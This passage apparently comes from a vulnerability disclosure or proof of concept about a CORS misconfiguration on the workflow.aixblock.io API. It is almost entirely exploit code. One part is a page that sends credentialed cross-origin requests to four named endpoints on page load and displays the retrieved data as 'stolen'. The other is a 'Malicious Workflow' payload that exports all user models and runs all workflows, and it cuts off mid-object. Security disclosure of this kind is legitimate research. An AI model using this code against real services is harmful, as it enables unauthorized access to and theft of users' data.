 ```html
        async function exploitWorkflowExecution() {
            const maliciousDomain = window.location.origin;
            const targetEndpoints = [
                'https://workflow.aixblock.io/api/workflows',
                'https://workflow.aixblock.io/api/automation', 
                'https://workflow.aixblock.io/api/models',
                'https://workflow.aixblock.io/api/execution'
            ];
            
            for (const endpoint of targetEndpoints) {
                try {
                    // This request will succeed due to CORS misconfiguration
                    const response = await fetch(endpoint, {
                        method: 'GET',
                        credentials: 'include', // Works due to wildcard CORS
                        headers: {
                            'Origin': maliciousDomain,
                            'Content-Type': 'application/json',
                            'X-Requested-With': 'XMLHttpRequest'
                        }
                    });
                    
                    if (response.ok) {
                        const data = await response.json();
                        document.getElementById('results').innerHTML += 
                            `<h3>Successfully accessed: ${endpoint}</h3>` +
                            `<pre>${JSON.stringify(data, null, 2)}</pre>`;
                        
                        // In a real attack, this data would be sent to attacker's server
                        console.log('Stolen workflow data:', data);
                    }
                } catch (error) {
                    console.error(`Failed to access ${endpoint}:`, error);
                }
            }
        }
        
        // Execute exploit when page loads
        window.onload = function() {
            setTimeout(exploitWorkflowExecution, 1000);
        };
    </script>
</body>
</html>
```

### **Workflow Execution Exploitation**
```javascript
// Unauthorized workflow execution via CORS
async function executeWorkflowUnauthorized() {
    const workflowPayload = {
        name: "Malicious Workflow",
        steps: [
            {
                type: "data_extraction",
                target: "user_models",
                action: "export_all"
            },
            {
                type: "automation_trigger",
                target: "user_workflows", 
                action: "execute_all"
            }
```